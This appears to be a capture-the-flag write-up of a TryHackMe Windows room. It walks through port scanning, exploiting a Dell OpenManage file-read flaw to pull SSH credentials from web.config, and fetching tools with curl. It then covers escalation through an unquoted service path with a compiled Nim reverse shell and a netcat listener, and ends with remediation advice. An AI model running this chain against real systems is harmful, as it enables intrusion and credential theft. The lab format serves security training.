# Hack Smarter Security Report: Try Hack Me - Medium Difficulty

## Enumeration and Reconnaissance

I performed a ping sweep against the target IP to verify connectivity and gather OS information via TTL analysis. The TTL value of 126 indicated a Windows-based system.

```
ping -c 1 $IP
```



## Port Discovery

Conducted a comprehensive port scan using Nmap to identify all open ports and services running on the target.

```
nmap -p- --open -sS --min-rate 4000 -n -Pn -vvv $IP -oG allPorts
```

The scan revealed FTP, HTTP, and RXMon services, confirming this is not an Active Directory environment since no LDAP, Kerberos, domain, or RPC services were detected.



## Services and Versions Port Enumeration

Targeted service and version detection was performed on critical ports:

```
nmap -p21,22,80,1311,3389 -sCV $IP -oN targeted
```

The results confirmed the presence of FTP, HTTP, and additional services comprising the attack surface.



## FTP Anonymous Access

Anonymous access to the FTP service was successfully established without credentials. Upon reviewing downloaded files including metadata and strings analysis, no immediately valuable information was identified.



## Web Testing

Port 80 hosts an HTTP service. Various vulnerability categories were tested including SQL injection, XSS, and directory fuzzing; however, the page is simple and does not interact with any API or database.



## Dell OMSA OpenManage

Port 1311 runs a DELL iDRAC service accessed via HTTPS. Attempts to authenticate with common credentials failed. This is notable since such management interfaces typically should not be exposed on the attack surface.



Further investigation revealed documentation indicating version 9.4.0 of the Server Administrator, which showed interesting configuration data.



Searchsploit was consulted for the identified version:

```
searchsploit 9.4.0 Server Administrator
```



An exploit was found enabling arbitrary file reading via a script. The module `windows/webapps/49750.py` was identified for further analysis.



However, initial attempts to utilize this exploit failed as it requires Python 2, which is no longer maintained. An alternative approach was sought.



## File Discovery: web.config

The objective was to locate credentials stored on Windows systems. The `web.config` file, an XML-based configuration used by .NET Framework applications and IIS servers, was identified as a potential source for SQL credentials or SSH user credentials.

The standard path is typically:
- `C:\inetpub\wwwroot\Web_site_name\web.config`
- `C:\inetpub\wwwroot\web.config`

In this instance, the website name was identified as `hacksmartersec` based on Nmap scan output.



The `web.config` file at `C:\inetpub\wwwroot\hacksmartersec\web.config` contained credentials for the user **tyler**.



Successfully connected via SSH using the obtained credentials:

```
ssh tyler@$IP
```



## Privilege Escalation Enumeration

Enumerated permissions and groups but found no immediately interesting configurations. Detailed system information was gathered:

```
whoami /all
```



Attempted to use WinPEAS but the antivirus permitted execution, so PrivEscCheck was utilized instead. The script was downloaded from the GitHub repository:

```
https://github.com/itm4n/PrivescCheck
```

Downloaded the script via Python HTTP server:

```
python3 -m http.server 80
```

```
curl http://<your_ip>/PrivescCheck.ps1 -o Privesc.ps1
```



## Privilege Escalation Execution

Initialized PowerShell and executed the PrivEscCheck script:

```
powershell
.\Privesc.ps1; Invoke-PrivescCheck -Extended
```



While the script ran, findings severity was monitored. Findings can be categorized as INFO or VULNERABLE.




Looking for vulnerabilities classified as medium or high severity.

And indeed, a highly vulnerable service was identified: **spoofer-scheduler**.



The spoofer service runs version 1.4.6, which is known to have an Unquoted Service Path vulnerability (CVE-2021-46443). Since the service path does not use proper quotation marks, a local user can escalate privileges from local access to SYSTEM level.



## Reverse Shell Deployment

Located a repository providing a reverse shell script for exploitation. Modified the script to include the attacker's IP address.



Compiled the Nim script with the service name `spoofer-scheduler.exe`:

```
nim c -d:mingw --app:gui -o:spoofer-scheduler.exe rev_shell.nim
```



## Service Interruption and File Retrieval

Attempted to replace the original service file but lacked sufficient permissions. Stopped the service:

```
sc stop spoofer-scheduler
```



Successfully downloaded the compiled executable:

```
curl http://$IP/spoofer-scheduler.exe -o spoofer-scheduler.exe
```



It worked.

## Shell Execution

First, I activated a listener on port 8080 to receive the shell:

```
nc -nvlp 8080
```



And then activated spoofer-scheduler:

```
sc start spoofer-scheduler
```



However, after a few seconds we lost the shell. So I had to be quick.



## Target Enumeration

Wanted to get the targets that this group will attack later, so I just made a type in the file:

```
type C:\Users\Administrator\Desktop\Hacking-Targets\hacking-targets.txt
```



We got it.

## Remediation Recommendations

For real-life testing scenarios, it is essential to check the versions of the services used. This was the principal exploit chain followed: detecting services used and their versions, which were vulnerable and had associated CVEs, making them easy to exploit.

Key recommendations:
- Regularly update all service versions to patched releases
- Implement network segmentation to limit exposure of management interfaces
- Conduct frequent asset discovery and version scanning
- Apply principle of least privilege for service accounts
- Monitor for unquoted service paths and other common misconfigurations